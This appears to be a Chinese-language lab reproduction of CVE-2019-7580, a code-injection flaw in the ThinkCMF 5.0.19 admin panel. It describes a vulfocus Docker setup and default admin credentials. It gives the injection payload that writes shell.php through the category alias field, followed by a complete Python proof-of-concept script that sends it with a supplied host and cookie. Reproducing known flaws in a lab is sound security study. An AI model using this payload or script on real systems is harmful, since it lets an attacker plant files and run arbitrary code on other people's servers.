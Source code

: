# CVE-2019-7580漏洞复现



## 1.漏洞简介

ThinkCMF 是一款支持[Swoole](https://so.csdn.net/so/search?q=Swoole&spm=1001.2101.3001.7020)的开源内容管理框架(CMF), 基于ThinkPHP开发. thinkcmf 5.0.19 这个版本后台提供路由自定义，远程攻击者攻击者可通过向 portal/admin_category/addpost.html 页面发送‘别名’参数利用该漏洞注入任意代码。



## 2.环境介绍

拉取 vulfocus 现有镜像，并运行到 80 端口。

docker-compose.yml

```yml
version: '3'
services:
  thinkcmf:
    image: vulfocus/thinkcmf-cve_2019_7580
    ports:
      - 80:80
```



## 3.复现过程

启动环境。

![image-20230727214003016](img/image-20230727214003016.png)

使用账号密码：admin/123456 登陆成功。

![image-20230727214558454](img/image-20230727214558454.png)

登陆成功后，在门户管理->分类管理->添加分类处的分类别名处添加 payload .

```
1'=>array(""),file_put_contents('shell.php','<?php phpinfo();?>'),'2
```

![image-20230727224332274](img/image-20230727224332274.png)

点击添加后会在根目录下生成 shell.php .

![image-20230727225233733](img/image-20230727225233733.png)

编写poc：

```python
import requests
import sys


def send_request(host, cookie):
    url = f"http://{host}/portal/admin_category/addpost.html"
    headers = {
        "Accept": "application/json, text/javascript, */*; q=0.01",
        "X-Requested-With": "XMLHttpRequest",
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.0.0 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
        "Origin": f"http://{host}",
        "Referer": f"http://{host}/portal/admin_category/add.html",
        "Accept-Encoding": "gzip, deflate",
        "Accept-Language": "zh-CN,zh;q=0.9",
        "Cookie": cookie,
        "Connection": "close"
    }

    payload = {
        "parent_id": "0",
        "name": "1'=>array(''),file_put_contents('shell.php','<?php phpinfo();?>'),'2",
        "alias": "1'=>array(''),file_put_contents('shell.php','<?php phpinfo();?>'),'2",
        "description": "1'=>array(''),file_put_contents('shell.php','<?php phpinfo();?>'),'2",
        "more[thumbnail]": "",
        "seo_title": "",
        "seo_keywords": "",
        "seo_description": "",
        "list_tpl": "list",
        "one_tpl": "article"
    }

    response = requests.post(url, headers=headers, data=payload)
    shell = f"http://{host}/shell.php"
    if "添加成功" in response.text and response.status_code == 200:
        print(f"phpinfo()已写入shell.php，地址为{shell}")
    else:
        print("phpinfo()写入失败")


if __name__ == "__main__":
    if len(sys.argv) < 3:
        print("Usage: python poc.py host cookie")
    else:
        host = sys.argv[1]
        cookie = sys.argv[2]
        send_request(host, cookie)
```

脚本中需要 host 和 cookie 两个参数，下图可快速获取 cookie，cookie 中只需要图中三个参数。

![image-20230727235551350](img/image-20230727235551350.png)

执行脚本。

![image-20230728000106793](img/image-20230728000106793.png)

再次成功写入

![image-20230727234147078](img/image-20230727234147078.png)
